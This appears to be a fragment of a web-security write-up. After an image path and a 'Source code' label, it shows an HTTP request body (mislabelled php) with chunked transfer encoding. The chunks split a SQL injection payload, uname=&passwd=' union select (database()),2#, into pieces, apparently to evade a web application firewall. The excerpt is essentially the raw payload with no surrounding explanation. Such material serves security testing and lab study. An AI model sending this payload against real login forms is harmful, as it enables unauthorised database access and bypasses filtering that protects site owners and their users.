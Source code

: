 ```php
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Transfer-Encoding: chunked

1
u
4
name
1
=
1
&
2
pa
4
sswd
1
=
3
%27
2
un
1
i
2
on
1
+
2
se
1
l
2
ec
1
t
1
+
3
%28
2
da
1
t
2
ab
1
a
2
se
3
%28
3
%29
3
%29
3
%2C
1
2
3
%23
1
```